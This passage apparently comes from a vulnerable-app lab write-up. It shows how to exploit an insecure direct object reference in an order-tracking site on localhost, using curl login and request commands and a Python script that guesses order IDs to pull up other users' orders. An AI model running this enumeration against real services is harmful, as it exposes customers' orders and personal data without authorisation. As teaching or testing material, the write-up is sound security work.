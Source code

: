 ## Exploitation Steps

### 1. Manual Exploitation

**Step 1: Login as any user**
```bash
# Login to get a valid session
curl -c cookies.txt -X POST http://localhost:8000/login/ \
  -d "username=testuser&password=testpass123"
```

**Step 2: View your own orders to get ID pattern**
```bash
curl -b cookies.txt http://localhost:8000/my-orders/
# Note the order ID format: ORD-ABCDE-FGHIJ
```

**Step 3: Access other users' orders**
```bash
# Try different order IDs
curl -b cookies.txt http://localhost:8000/order/ORD-XXXXX-XXXXX/
curl -b cookies.txt http://localhost:8000/order/ORD-12345-67890/
```

### 2. Automated Enumeration Script

```python
import requests
import string
import random
from itertools import product

def generate_order_ids():
    """Generate possible order IDs based on pattern"""
    chars = string.ascii_uppercase + string.digits
    
    # Try common patterns
    for i in range(100):
        part1 = ''.join(random.choices(chars, k=5))
        part2 = ''.join(random.choices(chars, k=5))
        yield f"ORD-{part1}-{part2}"

def exploit_idor(session_cookie):
    """Enumerate and access orders"""
    session = requests.Session()
    session.cookies.set('sessionid', session_cookie)
    
    found_orders = []
    
    for order_id in generate_order_ids():
        url = f"http://localhost:8000/order/{order_id}/"
        response = session.get(url)
        
        if response.status_code == 200 and "Order Details" in response.text:
            print(f"[+] Found valid order: {order_id}")
            
            # Extract sensitive info
            if "Username:" in response.text:
                # Parse user info from response
                found_orders.append(order_id)
        
    return found_orders

# Usage
exploit_idor('your-session-id-here')
```